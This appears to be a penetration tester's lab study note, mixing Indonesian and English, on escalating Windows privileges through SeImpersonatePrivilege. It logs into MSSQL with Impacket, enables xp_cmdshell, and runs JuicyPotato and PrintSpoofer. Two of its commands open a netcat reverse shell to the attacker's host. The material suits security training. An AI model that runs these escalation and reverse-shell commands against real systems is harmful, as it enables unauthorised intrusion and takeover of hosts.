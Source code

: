 # 1. Windows User Privilege Escalation - SeImpersonate & SeassignPrimary Token

Status: Not started

1. **SeImpersonate Example - JuicyPotato**

command to detect  :  `whoami /priv`
output yang vulnerable :
`SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled`

Exploit Skema :

Using Impacket 

[`MSsqlclient.pymssqlclient.py](http://mssqlclient.py/) [sql_dev@10.129.43.30](mailto:sql_dev@10.129.43.30) -windows-auth == > login ke shell mssql
enable_xp_cmdshell ==> akses CMD lewat xp_cmd_shell`

`Konfirmasi Akses :
xp_cmdshell whoami
xp_cmdshell whoami /priv`

**PRIVILEGES INFORMATION**

---

`Privilege Name                Description                               State`

`============================= ========================================= ========`

`SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled`

`SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled`

`SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled`

`SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled`

`SeImpersonatePrivilege        Impersonate a client after authentication Enabled`

`SeCreateGlobalPrivilege       Create global objects                     Enabled`

`SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled`

**Escalating Privileges Using JuicyPotato**

`xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *`

> JUICY POTATO TIDAK BEKERJA PADA WINDOWS SERVER 2019 DAN WINDOWS 10 BUILD 1809 DAN DIATAS NYA. ALTERNATIF NYA MENGGUNAKAN ROGGUEPOTATO & PRINTSPOOFER
> 

Escalating Priviledges Using PrintSpoofer
Download Url : [this url](https://github.com/itm4n/PrintSpoofer)

Command :
Langsung privesc : `PrintSpoofer.exe -i -c cmd`
Reverse Shell Privesc :`PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`
